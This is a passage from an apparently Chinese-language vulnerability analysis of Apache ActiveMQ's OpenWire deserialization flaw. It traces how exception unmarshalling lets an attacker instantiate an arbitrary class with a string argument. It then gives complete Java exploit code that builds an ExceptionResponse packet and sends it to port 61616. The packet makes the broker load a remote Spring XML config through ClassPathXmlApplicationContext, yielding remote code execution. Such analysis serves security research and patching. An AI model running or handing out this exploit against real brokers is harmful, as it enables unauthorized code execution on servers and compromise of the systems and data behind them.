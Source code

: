 ```java
}
```

在tightUnmarsalThrowable方法中，最终触发到了createThrowable方法。

```java
protected Throwable tightUnmarsalThrowable(OpenWireFormat wireFormat, DataInput dataIn, BooleanStream bs) throws IOException {
    if (!bs.readBoolean()) {
        return null;
    } else {
        String clazz = this.tightUnmarshalString(dataIn, bs);
        String message = this.tightUnmarshalString(dataIn, bs);
        Throwable o = this.createThrowable(clazz, message);
```

class和message都是来自于反序列化的结果。意味着我们能够调用任意类的String构造方法，刚好ActiveMQ内置了Sping，配合Spring常用的一个利用类org.springframework.context.support.ClassPathXmlApplicationContext来加载远程的配置文件，实现SPEL表达式注入代码执行RCE。

# [](#%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8 "漏洞利用")漏洞利用

正常场景下，生产者只能发送Message给Broker。为了发送Response给Broker肯定需要修改下ActiveMQ的代码，所以大部分利用都是修改代码实现的。

为了更简单的实现利用，简单看了看ActiveMQ的协议，构造了下Exploit。ExceptionResponseMarshaller根据名字很容易判断出是ExceptionResponse的序列化/反序列化方法。

```java
public class ExceptionResponse extends Response {
    public static final byte DATA_STRUCTURE_TYPE = 31;
```

获取到ExceptionResponse的DATA\_STRUCTURE\_TYPE为31，整体的协议比较简单，以下为攻击代码。

```java
ByteArrayOutputStream bos = new ByteArrayOutputStream();
DataOutput dataOutput = new DataOutputStream(bos);
dataOutput.writeInt(0);
dataOutput.writeByte(31);

dataOutput.writeInt(1);
dataOutput.writeBoolean(true);
dataOutput.writeInt(1);
dataOutput.writeBoolean(true);
dataOutput.writeBoolean(true);
dataOutput.writeUTF("org.springframework.context.support.ClassPathXmlApplicationContext");
dataOutput.writeBoolean(true);
dataOutput.writeUTF("http://localhost:8000/abcd");

Socket socket = new Socket("localhost", 61616);
OutputStream socketOutputStream = socket.getOutputStream();
socketOutputStream.write(bos.toByteArray());
socketOutputStream.close();
```

在看代码中发现ActiveMQ中存在一个tightEncodingEnabled的配置，启用tightEncodingEnabled配置后，ActiveMQ会使用一种紧凑的消息编码方式，它采用了一些技巧，例如采用更紧凑的数据结构、二进制编码等，以减少消息的大小。
